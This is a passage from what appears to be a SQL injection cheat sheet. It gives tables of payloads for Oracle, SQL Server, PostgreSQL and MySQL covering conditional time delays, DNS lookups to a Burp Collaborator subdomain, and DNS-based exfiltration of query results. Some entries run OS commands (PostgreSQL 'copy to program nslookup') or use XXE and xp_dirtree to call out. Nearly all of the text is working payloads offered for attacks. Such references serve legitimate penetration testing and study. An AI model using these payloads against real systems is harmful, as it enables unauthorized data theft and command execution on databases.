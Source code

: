 <table><tbody><tr><th>Oracle</th><td><code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual</code></td></tr><tr><th>Microsoft</th><td><code>IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'</code></td></tr><tr><th>PostgreSQL</th><td><code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END</code></td></tr><tr><th>MySQL</th><td><code>SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')</code></td></tr></tbody></table>

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

<table><tbody><tr><th>Oracle</th><td><p>(<a href="https://portswigger.net/web-security/xxe">XXE</a>) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:</p><code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code><p>The following technique works on fully patched Oracle installations, but requires elevated privileges:</p><code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code></td></tr><tr><th>Microsoft</th><td><code>exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'</code></td></tr><tr><th>PostgreSQL</th><td><code>copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'</code></td></tr><tr><th>MySQL</th><td><p>The following techniques work on Windows only:</p><code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code><br><code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></td></tr></tbody></table>

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

<table><tbody><tr><th>Oracle</th><td><code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code></td></tr><tr><th>Microsoft</th><td><code>declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')</code></td></tr><tr><th>PostgreSQL</th><td><code>create OR replace function f() returns void as $$<br>declare c text;<br>declare p text;<br>begin<br>SELECT into p (SELECT YOUR-QUERY-HERE);<br>c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';<br>execute c;<br>END;<br>$$ language plpgsql security definer;<br>SELECT f();</code></td></tr><tr><th>MySQL</th><td>The following technique works on Windows only:<br><code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></td></tr></tbody></table>
